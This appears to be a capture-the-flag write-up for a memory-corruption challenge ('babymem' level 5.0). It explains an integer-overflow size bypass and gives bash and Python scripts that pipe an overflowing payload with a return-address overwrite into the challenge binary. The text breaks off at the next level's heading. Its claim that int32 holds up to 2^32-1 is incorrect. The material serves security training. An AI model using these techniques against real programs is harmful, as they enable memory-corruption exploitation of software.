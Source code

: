 <div alt="page-break" class="page-break"></div>

## Level 5.0

2 * 2147483648 ($2^{32}/2$) becasue int32 accepts at maximum $2^{32}-1$

The concept is very similar to the one used in the previous level. 

```shell
#!/bin/bash

file="/challenge/*"

payload_n=2
payload_size=$1
overflowing_payload_size=2147483648
append_string=$(echo -e "\xb5\x1b\x40")

string=$(printf '1%.0s' $(seq 1 $payload_size))

if [[ -n "$append_string" ]]; then
    string="${string}${append_string}"
fi

payload_size=$(($payload_size+${#append_string}))

printf "%d %d %s" "$payload_n" "$overflowing_payload_size" "$string" | $file

echo -e '\nThe provided string is:' $string ', length:' $payload_size
```

`./memory5.sh 120`

> Easier alternative: **memory.py**
>
> ```python
> import subprocess
> 
> file = "/challenge/babymem_level5.0"
> 
> payload = b"2\n2147483648\n" # 2 * 2^31
> payload += b"A" * 120
> payload += b"\xb5\x1b\x40"
> 
> process = subprocess.Popen(file, stdin=subprocess.PIPE)
> process.communicate(payload)
> ```
>
> `python memory.py`

<div alt="page-break" class="page-break"></div>

## Level 5.1
